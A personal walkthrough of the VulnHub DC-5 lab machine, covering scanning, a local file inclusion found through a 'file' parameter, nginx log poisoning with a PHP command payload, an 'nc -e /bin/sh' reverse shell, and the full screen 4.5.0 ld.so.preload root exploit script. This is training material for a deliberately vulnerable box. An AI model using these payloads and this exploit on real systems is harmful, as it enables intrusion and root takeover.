<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/dc-6,315/">DC5</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7/">DCAU</a></h4>

***

## Nmap



A website is running on port 80 and rpcbind is running on port 111.

Let's start with the website.

***

## HTTP



There was nothing unusual on the website. Nothing in the comments.

Let's run `gobuster` to see if we find anything:



Well gobuster also didn't find anything interesting.

Now the only thing I can think of is `form on Contact us` page. We can try to submit it and see if we find anything in it.

I submitted the random data and was redirected to a new page called `thankyou.php` with multiple query in the URL.



We know these kind of parameters are always(not always ;) prone to LFI/RFI.


I tried to include files with those parameters but none of them were prone to file inclusion but I got something when I used a different parameter named `file`(__pure guessing!!__)



We can read the `/etc/passwd` file easily. We have the LFI means we can easily exploit this using log poisoning.

 Basically we can send a requests with the following parameter:

```php
?file=<?php system($_GET["cmd"]) ?>
```
And then using the `/var/log/nginx/error.log` file we can run commands like

```
?file=/var/log/nginx/error.log&cmd=ls
```



***

If you want to understand how log poisoning works then you can just google something like `LFI to RCE using log poisoning` or you can read:

* [local-file-inclusion-code-execution](https://resources.infosecinstitute.com/local-file-inclusion-code-execution/)
* [from-local-file-inclusion-to-remote-code-execution-part-1](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

***

Since we have RCE we can just get the reverse shell on the machine.

In the `cmd` parameter you can send the following data
```
&cmd=nc -e /bin/sh IP-of-you-machine PORT
```


And we'll have a shell on our listener. Spawn the TTY shell and get to work :)

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```



***

I was in the machine and following the ritual I just downloaded the enumeration script from my system and ran it.

__Note__: Download the script in `/tmp` folder since we are not even a user(dc).

I got some suspicious looking SUIDs



I googled them one by one and got a hit on `screen-4.5.0`. There was an [exploit](https://www.exploit-db.com/exploits/41154) for `screen 4.5.0`.

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

Running that exploit as is gave an error:



So I manually separated the code into 3 different files.

* `libhax.c`

   

compile using:

```bash
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```

* `rootshell.c`

   

compile using:
```bash
gcc -o rootshell rootshell.c
```

* `exp.sh`

   

__Note__: Exploit still do the same thing but now instead of making files using echo and EOF it will just used the existing files that I made.

Now we can just wget all those file from our system to machine and run the exploit.



I tried to run the `exp.sh` file but for some reason I was getting some error.



So I did everything that was done in exploit manually.



And then got the flag




***
__Start time__: `Tue Jul  9 11:23:00 IST 2019`

__Completion time__: `Tue Jul  9 13:13:01 IST 2019`

***

I wasted quite sometime in figuring out how to run that exploit but all in all it was a good box.

***

Great machine by [DCAU](https://twitter.com/DCAU7), as always :)
